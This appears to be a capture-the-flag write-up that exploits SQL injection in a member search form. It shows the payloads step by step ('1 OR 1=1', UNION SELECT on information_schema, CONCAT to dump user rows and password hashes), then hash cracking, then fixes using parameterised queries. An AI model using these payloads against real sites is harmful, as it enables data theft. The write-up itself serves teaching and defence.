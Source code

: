 # Sql injection on members table

<!-- We could explain what is an sql injection before all -->

From the page `http://IP/?page=member`, where we can find a members search engine by user ID.

## Legit search

First of all trying searching for a userID of `1` results:

Input:
```sql
1
```

Output
```txt
ID: 1 
First name: one
Surname : me
```

We can see that the server returns two user fields.

## Condition injection

To be able to retrieve to whole users table entry we need to create a sql query that'is always true.

Input:
```sql
1 OR 1=1
```

Output:
```
ID: 1 OR 1=1 
First name: one
Surname : me
ID: 1 OR 1=1 
First name: two
Surname : me
ID: 1 OR 1=1 
First name: three
Surname : me
ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

There are four users in the users table. The last one looks quite suspicious.

## Simple SQL injection attempt

Starting hacking using a really simple sql injection such as:

Input:
```sql
SELECT * from users
```

Output:
```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

The server show us the raw MariaDB error, we see that our query has been added to a prebuilt one.

## UNION SELECT SQL injection

source: https://www.sqlinjection.net/column-names/

As a first SQL query is build using our input. By using the UNION SELECT attack we could build a new query over the first one.

Input: ( 1=1 is to make the first prebuild server query always succeed )
```sql
1=1 UNION SELECT * FROM users
```

Output:
```sql
The used SELECT statements have a different number of columns
```

The problem there is that our second `UNION SELECT` query returns more than the initial `sql query` 2 columns.


## Finding all tables columns name

Our goal is to retrieve all the `users` table columns names to be able to gather them using the `UNION SELECT` injection.
To do so we will be using the default database `information_schema.columns` information

Input:
```sql
1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Output:
```
<!-- OTHER DATABASE INFORMATION -->

ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire
ID: 1=1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign

<!-- OTHER DATABASE INFORMATION -->
```

We have retrieved the whole database tables and columns name, focusing on the users table we can find the following columns name:

- user_id
- first_name
- last_name
- town
- country
- planet
- Commentaire
- countersign

## Using `CONCAT` injection

source: https://makitweb.com/how-to-concatenate-multiple-columns-in-mysql/

What we want now is to retrieve all the users entry columns value within on column, as the initial query returns only 2 columns.

Input:
```sql
1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1
FROM users
```

Output:
```sql
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: one
Surname : me
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1
ID: 1=1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```

Inside the last user we can find the operations to do to retrieve the flag.

### Retrieving the flag

Via md5 decrypt of `5ff9d0165b4f92b14994e5c685cdce28` containted in the `countersign` users table column that leads to `FortyTwo`
Hashing using sh256 the `fortytwo` results in `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


## Solution

A solution to avoid this kind of breach would to escape received using either your native database escaping tools or manually.

An other solution would be to use an ORM that will natively prevent sql injections

Php Example:

Unsecured sql querying:
```php
$statement = $dbh->prepare("select * from users where email = {$email}");
$statement->execute();
```

Secured sql querying:
```php
$statement = $dbh->prepare("select * from users where email = ?");
$statement->execute(array(email));
```

Node Example:

Unsecured sql querying:
```js
connection.query(
  `select * from users where email = ${email}`,
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });

```

Secured sql querying:
```js
connection.query(
  'select * from users where email = ?',
  [email],
  function(err, rows, fields) {
    // Do something with the retrieved data.
  });
```